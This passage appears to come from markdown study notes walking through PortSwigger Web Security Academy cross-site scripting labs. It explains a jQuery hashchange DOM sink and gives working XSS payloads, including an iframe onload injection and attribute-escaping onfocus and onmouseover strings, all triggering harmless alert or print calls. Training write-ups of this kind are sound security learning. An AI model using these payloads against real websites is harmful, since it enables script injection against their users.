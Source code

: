 - To actually see an alert box just click `Back` button

#### DOM XSS in jQuery selector sink using a hashchange event
- `#` symbol could be used as a bookmark for paginated pages, so let's see what is happening underthehood when `#` found ...

- Using **view page source** inspecting page and see this:

```html
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

- So if our url looks like this: `view-source:https://0a9800b904851b908190070300000006.web-security-academy.net/#Passwords` we could check in console that `window.location.hash` will give us a `#Passwords`

- Understanding that source (src) is initiating an http request, let's provide the exploit:

```html
<iframe src="https://PUT_YOUR_LAB_ID_HERE.web-security-academy.net#" onload="this.src+='<img src=x onerror=print()>'">
```

#### Lab: Reflected XSS into attribute with angle brackets HTML-encoded
- Here we see that word is reflected inside the h1 tags and second one in the input field encoded (if we try regular `<img src=x onerror=alert()>`) it will gives us nothing
- So we could try to escape encoding by searching this:

```html
" autofocus onfocus=alert('Hello friend') x="
```

- Or one of these:

```html
<a href="#" onclick="alert('Hello friend')">Click</a>
```

```html
"onmouseover="alert('Hello friend')
```

#### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
- We should left a comment so clicking a username who lived a comment will trigger an alert box, lets add some comment and **inspect** a page.
In the comment section we will see something like this:

```html
<a id="author" href="https://www.random.com">friend</a>
```
